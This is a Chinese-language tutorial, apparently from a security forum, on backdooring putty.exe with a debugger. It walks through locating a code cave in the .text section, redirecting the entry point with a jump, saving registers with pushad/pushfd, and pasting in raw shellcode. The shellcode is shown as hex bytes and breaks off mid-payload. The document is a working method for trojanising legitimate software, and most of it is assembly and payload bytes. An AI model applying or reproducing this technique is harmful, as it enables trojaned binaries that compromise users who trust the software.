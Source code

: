0x01 dbg工具调试 | 植入后门代码
=====================

向程序中植入恶意代码的方法有很多，这里介绍的就是使用dbg工具分析并修改执行流，将后门代码强行植入进目标程序中，这种方式比较硬核，需要具备一定的逆向基本知识和动态调试技术。

下面以向putty.exe中植入后门代码为例

载入目标程序
------

根据不同版本选择对应版本的dbg，在左上角的`File-Open`中打开目标文件，查看入口点。

![LudnAI.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1b603e6d69df6b36955308de033175b787597043.png)

接下来就是找后门文件可写入的地方（即code cave），这部分要有可执行的权限，因此可以想到`.text`段。一般在`.text`段的末尾都会存在一片未使用的地址空间，前往查看。

![LuduNt.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-ba64c08a62bdce1c0b405ee94350a13ef50ee7c3.png)

修改程序执行流
-------

将入口点处的部分汇编代码备份记录下（以后要用）

```php
00454AD0  | 6A 60               | push 60                  |
00454AD2  | 68 B07A4700         | push putty.477AB0        |
00454AD7  | E8 08210000         | call putty.456BE4        |
00454ADC  | BF 94000000         | mov edi,94               | edi:"LdrpInitializeProcess"
00454AE1  | 8BC7                | mov eax,edi              | edi:"LdrpInitializeProcess"
```

![LudeHA.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-90d4651ce9f314ccfcf3023a7a0a892ca1823f69.png)

修改入口点的汇编代码

```php
jmp 0x0045C961
```

![LudVnH.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-2dd2311effc71ccdabe2c859105767e7a006ba3c.png)

保存现场

在code cave开始处先添加几条命令用于保存现场

```php
pushad
pushfd
```

![LudAje.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-e61d7d1f005c2c45f558fe7423a4a7bebc82a655.png)

插入payload

选定一块区域，右键edit，将payload复制进去

```php
fc e8 82 00 00 00 60 89 e5 31 c0 64
8b 50 30 8b 52 0c 8b 52 14 8b 72 28
0f b7 4a 26 31 ff ac 3c 61 7c 02 2c
20 c1 cf 0d 01 c7 e2 f2 52 57 8b 52
10 8b 4a 3c 8b 4c 11 78 e3 48 01 d1
51 8b 59 20 01 d3 8b 49 18 e3 3a 49
8b 34 8b 01 d6 31 ff ac c1 cf 0d 01
c7 38 e0 75 f6 03 7d f8 3b 7d 24 75
e4 58 8b 58 24 01 d3 66 8b 0c 4b 8b
58 1c 01 d3 8b 04 8b 01 d0 89 44 24
24 5b 5b 61 59 5a 51 ff e0 5f 5f 5a
8b 12 eb 8d 5d 6a 01 8d 85 b2 00 00
00 50 68 31 8b 6f 87 ff d5 bb f0 b5
a2 56 68 a6 95 bd 9d ff d5 3c 06 7c
```